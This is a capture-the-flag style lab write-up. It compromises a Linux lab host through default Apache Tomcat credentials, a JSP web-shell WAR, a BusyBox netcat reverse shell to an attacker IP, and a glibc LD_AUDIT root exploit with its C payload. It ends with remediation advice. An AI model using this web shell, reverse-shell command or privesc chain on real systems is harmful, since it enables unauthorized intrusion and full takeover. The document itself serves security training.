#  Core - Virtual Hacking Lab

| Info          | Details                                                                        |
| ------------- | ------------------------------------------------------------------------------ |
| Platform      | Virtual Hacking Lab                                                            |
| Difficulty    | Advanced                                                                       |
| Target IP     | 10.11.1.160                                                                    |
| OS            | Linux                                                                          |
| Vulnerability | Apache Tomcat 6 — Weak Credentials + WAR Deploy; glibc 2.11.1 LD_AUDIT Privesc |
| Tools Used    | Nmap, Gobuster, dirsearch, Searchsploit, GCC, BusyBox nc                       |

## Methodology

1. Reconnaissance — Active port scanning and service fingerprinting with Nmap.
2. Enumeration — SMB share enumeration, web directory brute forcing (Gobuster, dirsearch), and manual web application inspection.
3. Vulnerability Identification — Version-based research, weak credential testing, and Searchsploit queries.
4. Exploitation — Default credential abuse on Tomcat Manager; malicious WAR file constructed and deployed for RCE.
5. Post-Exploitation — Local enumeration of kernel/libc versions and SUID binaries for privilege escalation vectors.
6. Privilege Escalation — glibc LD_AUDIT exploitation via custom shared object library to obtain root.
7. Reporting — All findings documented with evidence, commands, and remediation guidance.

## Environment Setup

A structured working directory was created prior to enumeration to organize output logs and artefacts throughout the engagement.

```bash
mkdir core
cd core
mkdir nmap gobuster exploit
touch users.txt creds.txt
echo 'Testing....1...2...3...' > test.txt
```

## Network Scanning

A full TCP port scan was conducted with service version detection and default Nmap scripts enabled. The -Pn flag skipped host discovery to ensure all ports were scanned regardless of ICMP response. Results were saved for reference.

```bash
ip='10.11.1.160'
## Regular Scan + Version
sudo nmap -Pn -n $ip -sC -sV -p- --open -oN nmap/nmap.log
```

Reminder:
1. Check all the version
2. Check all the open ports



**Results:**

|Port|State|Service|Version / Notes|
|---|---|---|---|
|22/tcp|open|ssh|OpenSSH|
|80/tcp|open|http|Apache HTTP Server|
|110/tcp|open|pop3|POP3 Mail Service|
|139/tcp|open|netbios-ssn|Samba SMB|
|143/tcp|open|imap|IMAP Mail Service|
|445/tcp|open|microsoft-ds|Samba SMB (direct)|
|993/tcp|open|ssl/imap|IMAP over SSL|
|995/tcp|open|ssl/pop3|POP3 over SSL|
|8080/tcp|open|http|Apache Tomcat 6|

## SMB Enumeration

SMB services were enumerated using smbclient to list available shares. No publicly accessible shares were identified, limiting SMB as an initial attack vector.

```bash
smbclient -L //$ip
```



**Results:** No public shares returned

## Web Enumeration

Web App page: port 80



**Results:** It shows a webpage with words.

Directory brute forcing with Gobuster and dirsearch.

``` bash
# Gobuster
gobuster dir -u http://$ip -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir.log -t 42
```



**Results:** Seems like gobuster didn't find any interesting directories. 

```bash
# dirsearch
dirsearch -u $ip
```



**Results:** Dirsearch didn't show any interested directories as well.

No interesting directories discovered on port 80. Enumeration focus shifted to port 8080.

Web Application enumeration 2: Port 8080



**Results**: the webpage show the usage of tomcat 6

```bash
### Gobuster
gobuster dir -u http://$ip:8080 -w /usr/share/wordlists/dirb/common.txt -o gobuster/dir8080.log -t 42
```



**Results:** it seems like port 8080, also didn't show any interested directories. 

While enumerate the webpage, find out `/host-manager` and `/manager` when click on it. It shows a pop up login interface



After testing couple weak password that discovered from google. The passwords `tomcat::s3cret` successfully logged in



**Results:** found can deploy a `war` file

## Exploitation - JSP Web Shell

A JSP web shell was created to accept OS commands via a URL query parameter and return the output inline in the HTTP response. The shell was packaged into a WAR archive for Tomcat deployment, including a minimal WEB-INF directory required by the WAR specification.

```bash
# Create JSP webshell
cat > shell.jsp << 'EOF'
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if(cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    OutputStream os = p.getOutputStream();
    InputStream in = p.getInputStream();
    DataInputStream dis = new DataInputStream(in);
    String disr = dis.readLine();
    while ( disr != null ) {
        out.println(disr);
        disr = dis.readLine();
    }
}
%>
EOF

# Package as WAR
mkdir -p WEB-INF
jar -cvf shell.war shell.jsp WEB-INF
```



**Results:** uplaod `WAR` file and now we triggered it.

The packaged WAR file was uploaded to the Tomcat Manager interface using the default credentials. Upon deployment, Tomcat extracted and registered the application, making the web shell accessible at the /shell context path.

Navigate to `http://10.11.1.160:8080/shell/shell.jsp?cmd=id`



**Results**: Success, now try to trigger an rce.

With RCE confirmed, a reverse shell was triggered through the web shell using BusyBox nc, which supports the -e flag for shell binding. A listener was established on the attacker machine prior to triggering the payload.

```bash
http://10.11.1.160:8080/shell/shell.jsp?cmd=busybox nc 172.16.1.3 4444 -e sh

# Attacker set up a listener
sudo nc -lnvp 4444

# Upgrade shell, and check the users
python -c 'import pty; pty.spawn("/bin/bash")'
whoami
id
```



**Results:** Successfully go a local shell

# Privilege Escalation
```bash
ldd --version
```



**Results:** found glibc version 2.11.1

```bash
searchsploit glibc

searchsploit -m 18105
```



**Results:** found LD_Audit exploit might be workable.

After learning all the code, start working manually

## LD_AUDIT

The LD_AUDIT privilege escalation technique for glibc 2.11.1 was executed in the following steps. Because the target had no GCC compiler installed, the payload shared object was compiled on the attacker's Kali machine targeting 32-bit architecture, then transferred to the target via a Python HTTP server.

```bash
# The umask was set to 0 to ensure the malicious library was written with world-readable permissions, allowing it to be loaded by privileged processes.

umask 0
```

```c
// A C constructor function was written that executes /bin/sh with UID 0 and GID 0 upon library load. It also removes itself from /lib to clean up after execution.

cat > payload.c << EOF     
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void __attribute__((constructor)) init()
{
        printf("[+] Cleaning up.\n");
        unlink("/lib/libexploit.so");

        printf("[+] Launching shell.\n");
        setuid(0);
        setgid(0);
        setenv("HISTFILE", "/dev/null", 1);
        execl("/bin/sh", "/bin/sh", "-i", 0);
}
EOF
```

```bash
# Since the local shell has no gcc, so running in our own kali machine have higher GLIBC version. Thus need to run differently
gcc -m32 -fPIC -shared -o payload.so payload.c

# In local machine download the payload.so
wget http://172.16.1.1/payload.so

# 
LD_AUDIT="libpcprofile.so" PCPROFILE_OUTPUT="/lib/libexploit.so" ping 2>/dev/null

cat payload.so > /lib/libexploit.so

LD_AUDIT="libexploit.so" ping
```



**Results:** The constructor function executed, setting UID/GID to 0 and spawning /bin/sh as root. Full root shell obtained.

# **Remediation**

The following actions should be taken to mitigate the vulnerabilities identified:

### **1. Apache Tomcat Hardening**

- Change or remove default/weak credentials (e.g., `tomcat:s3cret`)
- Restrict access to `/manager` and `/host-manager` (IP allowlist or authentication)
- Disable WAR deployment for untrusted users
- Upgrade to a supported version of Apache Tomcat

---

### **2. Network & Service Security**

- Close unnecessary ports (POP3, IMAP, SMB if not required)
- Restrict internal services using firewall rules
- Enforce strong authentication for all exposed services

---

### **3. Web Application Security**

- Remove unnecessary exposed interfaces (admin panels)
- Implement strong password policies and account lockout mechanisms
- Monitor for unauthorized file uploads and deployments

---

### **4. Privilege Escalation Mitigation**

- Upgrade glibc to a secure version to prevent LD_AUDIT abuse
- Restrict write permissions to sensitive directories (e.g., `/lib`)
- Disable or restrict environment variables like `LD_AUDIT` for privileged binaries

---

### **5. System Hardening**

- Apply regular patching and updates across the system
- Implement the principle of least privilege
- Enable logging and monitoring for suspicious activity